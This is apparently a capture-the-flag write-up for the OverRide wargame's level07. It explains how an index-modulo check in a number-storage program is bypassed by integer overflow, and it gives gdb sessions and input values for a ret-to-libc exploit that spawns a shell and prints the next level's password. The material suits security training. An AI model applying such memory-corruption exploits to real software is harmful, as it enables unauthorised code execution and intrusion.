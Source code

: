 # level07
## Program behaviour

1. while true, ask for `command`
2. If `command` is `"store"`
    - Ask for `number` and `index`
    - if `index % 3 != 0`, store with `memory[index] = number`
3. If `command` is `"read"`
    - Ask for `index`
    - `printf` the `number` at `memory[index]`
4. If `command` is `"quit"`
    - `break` infinite loop

## Vulnerability

Because `memory` is a `int *`, `memory[index]` is actually `*(memory + index << 2)`.
Knowing that we can bypass the `% 3` check by adding `0x40000000` to `index`, and still have the wanted `index`.
This is true because `(index + 0x40000000 << 2) == index`.

This means that the program is vulnerable to buffer-overflow attacks.

## Exploitation

Here we are going to use a ret-to-libc, although it is possible to use a shellcode (see `exploit.py` for an example).


1. Setup a dummy breakpoint to load the symbol table. Run the program and fetch the address of the `system` function and the string `"/bin/sh"`
```gdb
(gdb) b *0x08048795
Breakpoint 1 at 0x8048795
(gdb) r
Starting program: /home/users/level07/level07 

Breakpoint 1, 0x08048795 in main ()
(gdb) print system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) p/d 0xf7e6aed0
$2 = 4159090384
(gdb) find system, +99999999, "/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
(gdb) p/d 0xf7f897ec
$3 = 4160264172
```

2. Find the correct offset to overwrite the saved `$eip`
```gdb
(gdb) b *0x080488ea
Breakpoint 1 at 0x80488ea
(gdb) r
Starting program: /home/users/level07/level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: store

Breakpoint 1, 0x080488ea in main ()
(gdb) p/d $ebp+4 - ($esp + 0x24)
$4 = 456
(gdb) p/d 456/4                 
$5 = 114
```

3. Write the correct addresses at offset `114` and `116`.
    - `114` is divisible by `3` but `116` is not.
    - `114 + 0x40000000 == 1073741938`
    - `system`: `0xf7e6aed0 == 4159090384`
    - `"/bin/sh"`: `0xf7f897ec == 4160264172`
```sh
level07@OverRide:~$ ~/level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```
